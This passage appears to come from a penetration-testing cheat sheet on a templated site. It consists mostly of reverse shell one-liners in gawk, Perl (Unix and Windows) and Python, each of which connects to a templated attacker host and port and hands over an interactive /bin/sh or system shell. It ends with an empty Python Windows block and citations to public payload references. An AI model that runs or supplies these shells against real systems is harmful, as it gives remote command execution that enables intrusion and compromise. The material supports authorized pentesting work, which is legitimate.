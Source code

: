 ### Gawk

```gawk
#!/usr/bin/gawk -f

BEGIN {
    Service = "/inet/tcp/0/{{< param "war.lhost" >}}/{{< param "war.lport" >}}"
    while (1) {
        do {
            printf "0xffsec>" |& Service
            Service |& getline cmd
            if (cmd) {
                while ((cmd |& getline) > 0)
                    print $0 |& Service
            close(cmd)
            }
        } while (cmd != "exit")
        close(Service)
    }
}
```

### PERL

```sh
perl -e 'use Socket;$i="{{< param "war.lhost" >}}";$p={{< param "war.lport" >}};socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### PERL Windows

```sh
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"{{< param "war.lhost" >}}:{{< param "war.lport" >}}");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

### Python

```sh
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{{< param "war.lhost" >}}",{{< param "war.lport" >}}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Python Windows

```sh
```

[^pentestmonkey]: “Reverse Shell Cheat Sheet | Pentestmonkey.” Pentestmonkey | Taking the Monkey Work out of Pentesting, http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet.
[^nc-openbsd]: “Nc.Openbsd.” Man Pages Archive - Manned.Org, https://manned.org/nc.openbsd/6f0a5cf9.
[^swisskyrepo-shells]: swisskyrepo. “PayloadsAllTheThings/Reverse Shell Cheatsheet.Md at Master · Swisskyrepo/PayloadsAllTheThings · GitHub.” GitHub, https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md.
[^groovy-shell]: Frohoff, Chris. “Pure Groovy/Java Reverse Shell .” Gist · GitHub, 262588213843476, https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76.
[^cert-pinning]: “Certificate and Public Key Pinning Control.” OWASP Foundation | Open Source Foundation for Application Security, https://owasp.org/www-community/controls/Certificate_and_Public_Key_Pinning.
[^openssl]: OpenSSL Foundation, Inc. “/Docs/Manmaster/Man1/Openssl.Html.” OpenSSL.Org, https://www.openssl.org/docs/manmaster/man1/openssl.html.
[^ncat]: “Ncat Users’ Guide.” Nmap: The Network Mapper - Free Security Scanner, https://nmap.org/ncat/guide/index.html.
[^terminal-shell-console]: “What Is the Exact Difference between a ‘Terminal’, a ‘Shell’, a ‘tty’ and a ‘Console’? .” Unix & Linux Stack Exchange, https://unix.stackexchange.com/a/4132/356054.